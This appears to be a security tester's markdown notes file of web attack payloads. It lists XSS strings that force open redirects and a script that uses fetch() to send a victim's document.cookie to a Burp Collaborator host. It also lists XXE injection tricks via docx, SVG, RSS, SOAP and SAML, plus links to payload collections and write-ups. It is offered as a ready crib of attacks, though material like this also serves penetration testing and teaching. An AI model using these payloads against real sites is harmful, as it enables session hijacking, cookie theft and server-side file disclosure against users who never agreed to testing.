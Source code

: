 # My Notes - Payload

## XSS to Open Redirection Payload:
1. http://Test"><img src=x onload=window.location="http://google.com">
2. "><img src=x onerror=window.location="http://google.com">

## Exfiltrate cookie:
<script>fetch('https://anmol.burpcollaborator.net?'+document.cookie, {method: 'POST',mode: 'no-cors',body:document.cookie});alert('exfiltrated the document.cookie');</script>

## Multi XSS Exploit in Upload File
1. <a href="https://systemweakness.com/multi-xss-exploit-in-upload-file-2bfde6ce471a">Multi XSS Exploit in Upload File</a>

## Tiny XSS
1. <a href="https://tinyxss.terjanq.me/">Tiny XSS by @terjanq</a>

## Server-Side input validation testing
1. <a href=https://redtm.com/web-pentest/server-side-input-validation>Server-Side input validation testing</a>

## XXE Techniques [Observations]
1. Convert the content type from "application/json"/"application/x-www-form-urlencoded" to "application/xml".
2. File Uploads allows for docx/xlcs/pdf/zip , unzip the package and add your evil xml code into the xml files.
3. If svg allowed in picture upload , you can inject xml in svgs.
4. If the web app offers RSS feeds , add your malicious code into the RSS.
5. Fuzz for /soap api , some applications still running soap apis
6. If the target web app allows for SSO integration, you can inject your malicious xml code in the SAML request/response
7. For more: <a href="https://www.synack.com/blog/a-deep-dive-into-xxe-injection/">A Deep Dive into XXE Injection</a>

## XXE OOB
1. <a href="SOAP- Based Unauthenticated Out-of-Band XML External Entity (OOB-XXE) in a Help Desk Software">SOAP- Based Unauthenticated Out-of-Band XML External Entity (OOB-XXE) in a Help Desk Software</a>
2. <a href="https://hackerone.com/reports/36450">Soap-based XXE vulnerability /soapserver/</a>

## Resources
1. https://github.com/xsuperbug/payloads/blob/master/XSS%20-2
2. https://www.blackhat.com/presentations/bh-usa-09/VELANAVA/BHUSA09-VelaNava-FavoriteXSS-SLIDES.pdf
